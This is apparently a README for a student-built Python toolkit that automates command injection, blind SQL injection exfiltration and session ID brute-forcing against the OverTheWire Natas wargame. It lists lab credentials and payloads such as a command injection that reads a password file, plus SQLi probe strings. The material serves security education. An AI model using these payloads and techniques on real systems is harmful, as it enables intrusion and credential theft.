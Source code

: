 
# Security Engineering Toolkit: An Automated Vulnerability Prober

## Overview

This project is the primary output of a Security Engineering course project. It began as a deep-dive analysis into the OverTheWire Natas wargames and evolved into the creation of a modular, Python-based security toolkit designed to intelligently automate the discovery and exploitation of common web vulnerabilities.

The core philosophy of this toolkit is to move beyond simple, blind exploitation and implement more intelligent, analysis-driven automation. Each module was directly inspired by a specific challenge encountered during the Natas wargames, translating theoretical knowledge into a practical, reusable tool.

## Features

-   **Intelligent OS Command Injection Prober:** Uses a response-diffing algorithm to precisely detect the output of injected commands, reducing false positives.
-   **Boolean-Based Blind SQLi Exfiltrator:** Automates the character-by-character exfiltration of data when only a "true" or "false" response is available from the server.
-   **Time-Based Blind SQLi Exfiltrator:** Exploits time-based side channels to exfiltrate data from completely "blind" injection points where no visible output is provided.
-   **Session ID Brute-Forcer:** A specialised tool to exploit weak session ID generation, capable of handling both simple numeric and hex-encoded session tokens.

## Prerequisites & Setup

The toolkit is designed to run on Python 3.9+ and requires the `requests` library.

1.  **Clone the repository:**
    ```bash
    git clone https://github.com/ScottyPoon/nata-probe.git
    cd nata-probe
    ```

2.  **Create and activate a virtual environment (recommended):**
    ```bash
    python3 -m venv venv
    source venv/bin/activate  # On CSE machine
    venv\Scripts\activate  # On Windows
    ```

3.  **Install the required dependencies:**
    ```bash
    pip install -r requirements.txt
    ```

## Usage

The toolkit is operated from `main.py` with a clear command structure.

### General Help

To see the main commands (`inject`, `session`), use the help flag:
```bash
python3 main.py -h
```
To see the options for a specific subcommand, like `inject`:
```bash
python3 main.py inject -h
```

---

### Module 1: OS Command Injection (`cmd`)

This module tests for OS command injection vulnerabilities. It intelligently compares a baseline response with the exploit response to confirm success.

**Example Command (for Natas 9):**
```bash
python3 main.py inject cmd http://natas9.natas.labs.overthewire.org/ \
    -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" \
    --param needle \
    --payload "; cat /etc/natas_webpass/natas10 #"
```

**Argument Breakdown:**
-   `inject cmd`: Specifies the command injection module.
-   `-u "user:pass"`: Sets the basic authentication credentials.
-   `--param needle`: The name of the vulnerable parameter in the request.
-   `--payload "..."`: The specific malicious payload to inject. The `#` is used to comment out the rest of the original command.

---

### Module 2: Boolean-Based Blind SQL Injection (`sqli-bool`)

This module automates the painstaking process of exfiltrating data when the only feedback is a "success" or "failure" message.

**Manual Analysis (The process the tool automates):**
The tool automates the process of checking each character. For example, to manually check if the password starts with 'a' and then 'h':
```sql
natas16" AND password LIKE BINARY "a%" -- -
natas16" AND password LIKE BINARY "h%" -- -
```

**Example Command (for Natas 15):**
```bash
python3 main.py inject sqli-bool http://natas15.natas.labs.overthewire.org/ \
    -u "natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx" \
    --data "username=natas16" \
    --param-to-fuzz username \
    --success-string "This user exists"
```

**Argument Breakdown:**
-   `inject sqli-bool`: Specifies the boolean-based SQLi module.
-   `--data "username=natas16"`: The POST data to send. The tool will inject into this data.
-   `--param-to-fuzz "username"`: The specific key within the `--data` dictionary to inject into.
-   `--success-string "..."`: **Crucial.** This is the exact text the tool looks for in the response to confirm a "true" condition.

---

### Module 3: Time-Based Blind SQL Injection (`sqli-time`)

This module is for the most difficult scenarios where there is no visible feedback. It infers data based on server response delays.

**Example Command (for Natas 17):**
```bash
python3 main.py inject sqli-time http://natas17.natas.labs.overthewire.org/ \
    -u "natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC" \
    --data "username=natas18" \
    --param-to-fuzz username \
    --sleep-time 3 \
    --max-len 32
```

**Argument Breakdown:**
-   `inject sqli-time`: Specifies the time-based SQLi module.
-   `--sleep-time 3`: The number of seconds to ask the database to `SLEEP()`. Choose a value high enough to be clearly distinguishable from normal network latency.
-   `--max-len 32`: The maximum password length to test for. The script first determines the exact length before exfiltrating characters.

---

### Module 4: Session ID Brute-Forcer (`session`)

This module exploits predictable session ID generation schemes.

**Example Command - Simple Integers (for Natas 18):**
```bash
python3 main.py session http://natas18.natas.labs.overthewire.org/ \
    -u "natas18:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ" \
    --range "1:640:1" \
    --template "PHPSESSID=^PASS^" \
    --success-string "You are an admin"
```

**Example Command - Hex-Encoded (for Natas 19):**
```bash
python3 main.py session http://natas19.natas.labs.overthewire.org/ \
    -u "natas19:tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr" \
    --range "1:640:1" \
    --template "PHPSESSID=^PASS^" \
    --success-string "You are an admin" \
    --hex-encode
```

**Argument Breakdown:**
-   `session`: Specifies the session brute-force module.
-   `--range "1:640:1"`: The range to test, in `start:stop:step` format.
-   `--template "PHPSESSID=^PASS^"`: The cookie structure. `^PASS^` is the placeholder that will be replaced with the generated ID.
-   `--hex-encode`: An optional flag that enables the specific logic for Natas 19 (encodes `[ID]-admin` to hex).

